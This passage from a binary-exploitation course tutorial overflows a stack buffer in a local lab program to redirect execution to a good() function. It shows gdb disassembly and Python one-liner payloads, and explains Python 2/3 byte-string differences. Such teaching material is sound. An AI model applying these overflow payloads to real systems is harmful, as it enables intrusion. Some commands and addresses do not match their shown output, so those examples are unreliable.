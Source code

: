 As you are beginning to notice, the takeaway is that the computer is
dumb .... it will just execute whatever is next regardless of any
context. Let's take advantage of that and write something more useful.
In particular, let's get the program to run the function good() about
return. The first thing we need to know in order to do that is the
memory address of the instructions for good(). We can use gdb for that:

``` example
gef➤  disass good
Dump of assembler code for function good:
   0x080484e1 <+0>:	push   ebp
   0x080484e2 <+1>:	mov    ebp,esp
   0x080484e4 <+3>:	push   ebx
   0x080484e5 <+4>:	sub    esp,0x4
   
End of assembler dump.
```

The address of the start of the function is 0x080484e1 so we need to
write those bytes to the return address.

## Brief Timeout!!!! Python Version Differences

Many tutorials, including this one by Aviv and the original Nightmare material were written for Python2. The world has moved on and Python3 is now the default and correct version to be running. For most of the world this was not a problem, but in the exploit world, this transition has been rough. 

Here's an example of how things used to work in Python2: 
 `python -c "print('A'*48+b'\xe1\x84\x04\x08')"`

Here's how it needs to be done in Python3:
 `python -c "import sys; sys.stdout.buffer.write(b'A'*48+b'\xe1\x84\x04\x08')"`

Basically, Python decided to change the way they handled byte strings and printing, and made it a lot more complicated. This has made a lot of people very angry and been widely regarded as a bad move.All things considered, this change basically only impacted people writing exploits so we will just have to live with it. 

For the rest of this course, use the sys.stdout.bufffer.write format to avoid difficulty. I will work to modify the course material but will get to making all the changes eventually.

``` example
(gdb) run 66 `python -c "import sys; sys.stdout.buffer.write(b'A'*48+'\x08\x04\x84\xc1')"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/git/si485-binary-exploits/lec/1.2/vulnerable 66 `python -c "print 'A'*48+'\x080484c1'"`

Program received signal SIGSEGV, Segmentation fault.
0x38343008 in ?? ()
```

That didn't work, but we did crash the program. Let's see if we can
figure out what happened:

``` example
(gdb) run 66 `python -c "import sys; sys.stdout.buffer.write(b'A'*48+b'\x43\x62\x4b\x5f')"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/git/si485-binary-exploits/lec/1.2/vulnerable 66 `python -c "print 'A'*48+'\x08\x04\x84\xc1'"`

Breakpoint 8, vuln (n=0, str=0xbffff869 'A' <repeats 48 times>, "\b\004\204\301") at vulnerable.c:21
21   while( i < n ){
(gdb) ds
Dump of assembler code for function vuln:
   0x080484d5 <+0>: push   ebp
```